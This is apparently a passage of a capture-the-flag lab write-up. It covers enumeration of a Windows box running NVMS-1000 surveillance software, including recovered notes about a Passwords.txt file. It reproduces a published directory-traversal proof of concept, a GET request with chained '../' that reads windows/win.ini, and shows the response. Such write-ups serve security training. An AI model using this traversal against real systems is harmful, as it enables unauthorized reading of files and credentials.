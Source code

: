 **Confidential.txt**
> Nathan,
> 
> I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
> 
> Regards
> 
> Nadine

**Notes To Do.txt**
> 1) Change the password for NVMS - Complete
> 2) Lock down the NSClient Access - Complete
> 3) Upload the passwords
> 4) Remove public access to NVMS
> 5) Place the secret files in SharePoint

### Port 22 - OpenSSH for_Windows_7.7 (protocol 2.0)
No ready exploits available

### http://10.129.240.129:80
Forwards to http://10.129.240.129/Pages/login.htm
 * NVMS-1000 login
> Network Video Monitoring System (hereinafter referred to as “NVMS1000”) is a monitoring client 
> which is specially designed for network video surveillance. After the network video monitoring 
> system is well built, the super administrator can control the video input signal devices, such as 
> cameras, domes, etc., to achieve live monitor, video record and backup by configuring the video 
> parameters and viewing the live in the control panel. Users can
> choose the menu to control video surveillance system in the control panel. 
> The main functions of the control panel include live  view,  playback, E-map, device management, 
> group and scheme settings, user account and permission, local log, basic configuration and alarm 
> management.

From SearchSploit:
__hardware/webapps/47774.txt__
```
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan T<C3><BC>rle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
